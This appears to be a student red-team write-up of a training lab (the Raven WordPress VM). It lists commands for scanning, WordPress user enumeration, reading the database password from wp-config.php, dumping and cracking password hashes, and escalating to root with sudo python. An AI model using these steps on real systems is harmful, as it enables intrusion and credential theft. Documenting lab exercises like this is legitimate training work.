








# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV -sC  -O 192.168.1.110

$ nmap -Pn --script vuln 192.168.1.110 





The Scan exposed the ports 22 and 80 for possible entry and also showed the potentially interesting directories in the wordpress
```
This Gave us the following Vulnerabilities in Target 1

Enumerate the users with wordpress
Weak Passwords
Unprotected and Unsalted Hashes
Priveldge Escalation


### Exploitation


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1

We used nmap and were able to get the IP addresses of the VM's in the network, and the exposed ports that were 22(SSH) and 80(HTTP) and then we knew we would try to get access to the network through these ports

Using the word press command 

wpscan --url 192.168.1.110 --enumerate -u

we were able to get access to the view 2 users and these were Michael and Steven




We then noted that ssh port was available and were able to use the ssh command and gain access to michael's account


we then looked for the MYSQL database password and found wp-config.php and and the password was R@v3nSecurity



we used the credentials to gain access to the mysql database

MYSQL -u root -p

show database;

use wordpress
show tables;
describe wp_users;
select concat_ws (':', user_login, user_pass) from wp_users into outfile '/var/www/html/wordpress/wp_hashes.txt

I then transferred the file to Kali Linux VM using the command

scp michael@192.168.1.110:/var/www/html/wordpress/wp_hashes.txt /etc






then I run John on the wp_hashes.txt and acquired the password for the user steven




we then secured a user shell to the account of steven

ssh steven@192.168.1.110 

Then used the python script to gain access to the root of the target machine

python -c 'import pty; pty.spawn("/bin/bash")'

sudo python -c 'import pty; pty.spawn("/bin/bash")'

With this we were able to get Flag 4




